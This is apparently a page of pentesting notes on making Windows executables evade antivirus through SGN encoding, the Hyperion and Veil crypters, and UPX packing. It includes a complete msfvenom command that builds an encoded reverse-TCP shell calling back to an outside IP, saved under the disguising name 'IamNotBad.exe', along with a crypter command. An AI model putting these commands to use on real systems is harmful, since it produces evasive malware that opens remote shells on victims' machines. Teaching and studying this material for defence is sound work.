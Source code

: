 #### Exe

##### Encoding

Encoders are tools that allow you to avoid characters in an exploit that would break it.
Some Metasploit encoders create polymorphic code, or mutating code, which ensures that the encoded payload looks different each time the payload is generated.

One of these core techniques is the Shikata Ga Nai (SGN) payload encoding scheme.

SGN is a polymorphic XOR additive feedback encoder. It is polymorphic in that each creation of encoded shellcode is going to be different from the next. It accomplishes this through a variety of techniques such as dynamic instruction substitution, dynamic block ordering, randomly interchanging registers, randomizing instruction ordering, inserting junk code, using a random key, and randomization of instruction spacing between other instructions.

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.169.0.36 LPORT=80 -b "\x00" -e x86/shikata_ga_nai -f exe -o /root/Desktop/metasploit/IamNotBad.exe
```

[Here](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) you can find a full article which explains it deeper.

##### Encryption

[Hyperion](http://www.phobosys.de/hyperion.html) is a runtime crypter. It accepts Windows portable executables (PE) as input and transforms them into an encrypted version (preserving its original behaviour). The encrypted file decrypts itself on startup and executes it’s original content. This approach provides a protection of binaries against reverse engineering.

Hyperion was written to run on Windows systems, but we can run it on Kali Linux with the Wine program

```bash
wine hyperion /path/to/file.exe encryptedfile.exe
```

[Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

##### Packing

EXE Packer is a simple-to-use program that aims to compress EXE and DLL files, in order to reduce space on the hard drive and to enable the files in question to unpack automatically at runtime.

[UPX](https://upx.github.io/) is a free, portable, extendable, high-performance executable packer for several executable formats.

UPX offers ten different compression levels from -1 to -9, and --best.  The default compression level is -8 for files smaller than 512 KiB, and -7 otherwise.

- Compression levels **1**, **2** and **3** are pretty fast
- Compression levels **4**, **5** and **6** achieve a good time/ratio performance.
- Compression levels **7**, **8** and **9** favor compression ratio over speed.
- Compression level **--best** may take a long time.

Note that compression level **--best** can be somewhat slow for large files, but you definitely should use it when releasing a final version of your program.
